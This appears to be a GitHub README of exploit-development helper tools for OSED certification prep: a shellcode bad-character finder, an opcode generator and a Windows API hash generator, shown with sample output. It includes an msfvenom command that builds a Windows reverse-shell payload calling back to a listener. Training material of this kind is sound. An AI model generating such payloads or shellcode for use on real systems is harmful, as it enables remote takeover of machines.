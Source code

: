 # OSED_Notes

Here I share tools, scripts and resources that were important during my OSED preparation.

## badchars_find.py
A python script that finds badchars inside generated shellcodes by dividing the shellcode into blocks of \x70 bytes of length


```bash
# msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.1 lport=443 -f python EXITFUNC=thread -v buf

username@host:~$ python3 badchars_find.py
Badchar found: 0x3
Badchar: 0
==============================
Badchar found: 0x4
Badchar: 0
==============================
Badchar found: 0x5
Badchar: 0
==============================
Badchar found: 0x17
Badchar: 40
==============================
...
==============================
Badchar found: 0x55
Badchar: 128
==============================
Badchar found: 0x60
Badchar: 0
==============================
[!] Third block: 22 badchars! [!]
==============================
```

## to_hex.py
A python script that generates the opcodes of the given Assembly instructions

```bash
username@host:~$ python3 to_hex.py
\xcc\x31\xc9\x41\xff\x31\xc3
```

## hash_generator.py
A python script that generates the API Hash used to get the base address of a given function

```bash
username@host:~$ python3 hash_generator.py
Usage: hash_generator.py WINAPI

username@host:~$ python3 hash_generator.py GetProcAddress
GetProcAddress hash: 0x7c0dfcaa
```
